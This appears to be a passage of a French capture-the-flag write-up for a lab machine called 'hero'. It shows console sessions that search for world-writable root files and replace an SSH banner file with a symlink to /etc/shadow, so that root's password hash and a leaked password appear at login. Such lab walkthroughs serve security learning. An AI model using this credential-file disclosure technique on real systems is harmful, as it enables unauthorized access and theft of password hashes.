 ```console

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <https://wiki.alpinelinux.org/>.

You can setup the system with the command: setup-alpine

You may change this message by editing /etc/motd.

hero:~$ ls -al
total 16
drwxr-sr-x    3 shawa    shawa         4096 Feb  6 10:11 .
drwxr-xr-x    3 root     root          4096 Feb  6 10:07 ..
lrwxrwxrwx    1 shawa    shawa            9 Feb  6 10:11 .ash_history -> /dev/null
drwx--S---    2 shawa    shawa         4096 Feb  6 11:19 .ssh
-rw-------    1 shawa    shawa           15 Feb  6 10:11 user.txt
hero:~$ cat user.txt
HMVOHIMNOTREAL
```

Remarquez bien la présence du message `shawa was here.` lors de la connexion SSH.

Lorsque je recherche des fichiers de root que je peux modifier, je trouve un fichier `banner.txt` :

```console
hero:~$ find / -type f -user root -perm -o+w 2> /dev/null | grep -v /proc/ | grep -v /sys/
/var/www/localhost/htdocs/index.html
/opt/banner.txt
```

Et ce fichier contient exactement le message qu'on a vu. Le fichier et le dossier `/opt` ont des permissions qui me permettent de supprimer `banner.txt` et de le recréer.

Ma première idée était de mettre un lien symbolique de `banner.txt` vers la clé privée SSH de root mais ça ne donnait rien lors de la connexion SSH.

J'ai donc tenté le fichier `shadow` :

```console
hero:~$ cd /opt/
hero:/opt$ rm banner.txt
hero:/opt$ ln -s /etc/shadow banner.txt
```

Et là ça fonctionnait :

```console
$ ./proxychains4 -f proxychains.conf ssh -i /tmp/ctf.key shawa@172.17.0.1 
[proxychains] config file found: proxychains.conf
[proxychains] preloading ./libproxychains4.so
[proxychains] DLL init: proxychains-ng 4.15-git-1-g7de7dd0
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  172.17.0.1:22  ...  OK
#Imthepassthaty0uwant!
root:$6$WBuW3zyLro0fagui$gq9zWbt3gEpo26gkIjtgjYZqjCJtjJrJO9EHaWkglVZWwWhQiiSNmMGejRn.Q58Z9knsWP59OQqLPgt2NAWd80:20125:0:::::
bin:!::0:::::
daemon:!::0:::::
lp:!::0:::::
sync:!::0:::::
shutdown:!::0:::::
halt:!::0:::::
mail:!::0:::::
news:!::0:::::
uucp:!::0:::::
cron:!::0:::::
ftp:!::0:::::
sshd:!::0:::::
games:!::0:::::
```
